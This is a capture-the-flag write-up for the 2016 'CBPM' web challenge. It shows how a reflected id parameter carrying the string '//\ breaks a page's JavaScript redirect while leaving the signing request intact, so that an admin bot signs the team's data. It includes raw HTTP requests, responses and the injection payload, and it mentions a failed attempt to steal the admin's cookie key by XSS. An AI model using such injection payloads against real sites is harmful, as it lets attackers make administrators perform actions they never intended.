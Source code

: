 # CBPM (web 300)

The participants were given an online portal which had several parts.
Sign by Yourself (users could sign any data with a key)
See List of Signatures (The list of user’s signed data were shown)
Sign by Administrator (Sending any data to admin to sign)
Get the flag (getting flag by proper admin sign)
After spending some time on the task, we realized the workflow. The important consequences:
1. Signing could not possible due to JavaScript snippet code.
2. By removing JavaScript code manually, the code signing was possible.
3. Admin signed everything, but the results were not shown to the users.
4. The question asked participant to sign their team number by admin.
5. The signing KEY was stored in cookie without HttpOnly flag.
Attack scenario: In the beginning, we tried to find a XSS vulnerability. By leveraging XSS, it could possible to force admin send their KEY to us, but after some test we were not able to exploit admin blindly. So after some time, we realized that workflow had a problem:

When a user wanted to sign a data, following request was sent:

```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D
And the response was:
HTTP/1.1 200 OK
Server: nginx/1.6.1
Date: Sun, 18 Dec 2016 11:08:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1407

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">

    <title>ExtraSecure - Wait & Sign</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <script src="js/index.js"></script>
    <script src="js/cookie.js"></script>
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=";
    </script>
</head>
<body>
<div class="container">
    <div class="card">
        <h1 class="card-header">Signing in <i id="time">10</i> seconds...</h1>
        <p class="card-block">Please be patient... The content will be signed with your key soon and you will be
            redirected to the <i>list</i> page to view the results.</p>
    </div>
</div>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='
        };
        postForm('/sign_and_store.php', body);
    });
</script>
</body>
</html>
```
Based on the response:
1. The JavaScript code at the bottom of response, prevented to sign data and redirected user to the home page.
2. `KEY` was gathered by parsing cookie.
3. `ID` was reflected in post data.



Interestingly, when we gave our data to admin to sign, following HTTP request were sent:
```
[POST DATA]
---
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%26content%3D60
---
```
URL decoded data:
```
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&url=http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&content=184
```
The link was similar to our data sign link. However, we had realized that JavaScript code prevented to sign data, as a result, admin was not able to sign anything yet!
So we had to find a way to disable the JavaScript code, and at the same time, not corrupting post data. The first string we came up was:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%5C
```
Which disabled the JavaScript code. However, it corrupted post data as it’s seen:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
Some after, we found magical string:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%27%2f%2f%5c
```
Which represents `'//\`. At the same time, it disables JavaScript code and doesn’t corrupt post data:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\";
</script>

<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
As a consequence, we sent our payload to admin and waited for his sign:
[POST DATA]
```
---
content=148&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%27%2f%2f%5c%26content%3D148
---
```
The admin signed our data, we entered it and grabbed the flag :)

https://twitter.com/yshahinzadeh
